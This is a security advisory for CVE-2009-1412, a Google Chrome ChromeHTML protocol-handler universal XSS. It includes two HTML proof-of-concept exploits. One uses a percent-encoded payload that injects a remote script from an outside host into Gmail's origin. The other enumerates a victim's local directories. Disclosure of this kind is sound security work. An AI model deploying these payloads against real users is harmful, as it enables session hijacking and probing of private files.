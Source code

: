 ```yaml
---
layout: vuln
credit:
    - roi
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2009-04-23' 
alephid: ALEPH-2009000
cve: CVE-2009-1412
date: '2009-04-23'
title: 'Google Chrome ChromeHTML Protocol Handler Universal XSS'
severity: high
product:
    - Google Chrome
vulnerable: 
    - 1.0.154.55 and earlier
mitigation: 'Apply 1.0.154.59 or later.'
references:
    - src: paper
      url: http://blog.watchfire.com/files/google-chrome-advisory.doc
    - src: 'chromium bug track: Issue 9860' 
      url: https://bugs.chromium.org/p/chromium/issues/detail?id=9860
   
---
```

A vulnerability in the ChromeHTML URL handler, allows forcing Google Chrome load arbitrary URIs when it is launched through IE. Combined with other issues, this seemingly harmless vulnerability opens the door to two major attack vectors:

* Bypass the Same Origin Policy restrictions for any site (this has the same impact as Universal XSS)
* Enumerate victim's local files and directories.

It is important to note that the way Internet Explorer processes URL protocol handlers is a known Achilles' heel and has been widely used previously to attack other various applications.

## Proof-of-Concept ##

Universal XSS:
```html

<html>
<title>Google Chrome universal XSS POC</title>
<!--[if IE]>
<p>This PoC will launch Chrome, redirect it to http://www.gmail.com and execute arbitrary JavaScirpt on that domain.</p>
<p>Launching chrome...</p>
<script> document.location = 'chromehtml:"80%20javascript:document.write(unescape(\'%3C%73%63%72%69%70%74%25%32
%30%73%72%63%3D%68%74%74%70%3A%2F%2F%62%6C%6F%67
%2E%77%61%74%63%68%66%69%72%65%2E%63%6F%6D%2F%66
%69%6C%65%73%2F%6A%73%2E%6A%73%3E%3C%2F%73%63%72
%69%70%74%3E\'))"';
</script>
<![endif]-->
<p>In order for the POC to work you need Internet Explorer 7 and Google Chrome version &lt; 1.0.154.59.</p>
</html>
```
File Enumeration:
```html
<title>Google Chrome local files and folders enumeration</title>
<!--[if IE]>
<p>This PoC will launch Chrome with four arbitrary directories and an attacker-controlled web page.<br> The web page is used to enumerate local files and folders using a known history hack</p>
<script>
    document.location = 'chromehtml:"80%20c:/exists%20c:/nonexisting%20
    c:/windows%20c:/winnt%20http://blog.watchfire.com/files/historyhack.html"';
</script>
<![endif]-->
<p>In order for the POC to work you need Internet Explorer 7 and Google Chrome version &lt; 1.0.154.59.</p>
</html>
```
